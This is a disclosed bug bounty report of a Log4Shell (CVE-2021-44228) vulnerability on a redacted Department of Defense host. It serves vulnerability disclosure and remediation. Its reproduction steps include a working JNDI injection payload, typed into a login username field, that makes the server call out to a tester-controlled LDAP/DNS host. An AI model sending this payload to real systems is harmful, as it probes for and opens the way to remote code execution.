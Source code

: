 # ██████████ running a vulnerable log4j

## Report Details
- **Report ID**: 1423496
- **URL**: https://hackerone.com/reports/1423496
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-12-11T00:16:38.725Z
- **Disclosed**: 2022-01-19T19:33:44.463Z

## Reporter
- **Username**: alex_gaynor
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228

## Impact

Probably arbitrary code execution

## System Host(s)
████████

## Affected Product(s) and Version(s)


## CVE Numbers
CVE-2021-44228

## Steps to Reproduce
1. Browse to https://████████/███████https%3A%2F%2F█████████%2F
2. Enter a `${jndi:ldap://dns-server-yoi-control/a}` into the username field
3. Enter a random password
4. Submit

Observe that a request was made to your DNS server. This strongly suggests a vulnerable log4j.

## Suggested Mitigation/Remediation Actions
Update log4j or disable jndi support.



## Attachments
No attachments
